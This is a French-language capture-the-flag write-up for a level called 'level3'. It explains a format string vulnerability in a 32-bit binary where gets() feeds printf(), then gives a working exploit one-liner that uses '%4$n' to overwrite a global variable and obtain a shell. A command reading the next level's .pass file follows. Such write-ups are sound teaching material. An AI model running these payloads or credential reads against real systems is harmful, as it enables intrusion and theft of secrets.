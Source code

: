 # level3 - Format String Exploitation

## Analyse du Programme

**Structure**
- Le `main()` appelle une fonction `v()`
- Utilisation de `gets()` suivi d'un `printf()`
- Variable globale `m` à l'adresse `0x804988c` dans la section .bss
- Comparaison de cette globale avec la valeur 0x40 - si false -> return

**Points Clés**
- Adresse de la variable globale `m`: `0x804988c`
- Buffer à l'adresse: `0xbffff520`
- Format string vulnerability dans l'appel à `printf()`

## Exploitation Format String

**Mécanisme**
(voir Ressources/learning.md)

- `printf()` sans arguments traite les valeurs de la pile comme arguments
- Le formateur `%n` écrit le nombre de caractères affichés à l'adresse spécifiée
- `%4$n` accède directement au 4ème argument sur la pile

**Construction de l'Exploit**
1. Écriture de l'adresse de `m` au début du payload
2. Génération de 60 caractères ecrire la valeur souhaitée
3. Utilisation de `%4$n` pour écrire à l'adresse de `m`

## Exploitation

**Commande d'Exploitation**
```bash
(python -c 'print "\x8c\x98\x04\x08" + "%60c" + "%4$n"'; cat) | ./level3
```

**Obtention du Flag**
```bash
cat /home/user/level4/.pass
```

Cette exploitation fonctionne en modifiant la valeur de la variable globale `m` via une vulnérabilité format string, permettant l'exécution du shell.
